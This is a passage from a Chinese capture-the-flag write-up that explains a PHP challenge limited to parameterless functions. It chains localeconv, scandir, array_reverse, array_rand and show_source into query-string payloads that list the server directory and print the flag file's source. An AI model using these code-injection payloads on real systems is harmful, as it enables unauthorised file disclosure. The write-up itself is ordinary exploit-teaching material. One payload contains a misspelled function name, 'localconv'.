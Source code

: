 第一个正则是对各种正则的过滤

第二个正则用于匹配无参数函数（我们传的函数中不能用参数）

第三个正则过滤一些词组

接下来就要传参读取了

**先摆前置知识**

```
localeconv() 函数返回一包含本地数字及货币格式信息的数组。
scandir() 列出 images 目录中的文件和目录。
readfile() 输出一个文件。
current() 返回数组中的当前单元, 默认取第一个值。
pos() current() 的别名。
next() 函数将内部指针指向数组中的下一个元素，并输出。
array_reverse()以相反的元素顺序返回数组。
highlight_file()打印输出或者返回 filename 文件中语法高亮版本的代码。 
```

我们首先使用?exp=print_r(scandir(pos(localeconv()))) 看一下

![在这里插入图片描述](img/7ad05d5d1b6136a65d8b4b4b4ef3d40d.png)

发现flag在倒数第二位 那我们如何读取源码呢

利用array_reverse反转函数

构造payload：

```
?exp=show_source(next(array_reverse(scandir(pos(localconv()))))); 
```

但是上述方法有一定局限性，假如flag在例如第三位这样的位置我们就无计可施了，于是还有一个随机数多刷新出flag的万全之策

```
exp=show_source(array_rand(array_flip(scandir(pos(localeconv()))))); 
```

# [极客大挑战 2019]HardSQL 1
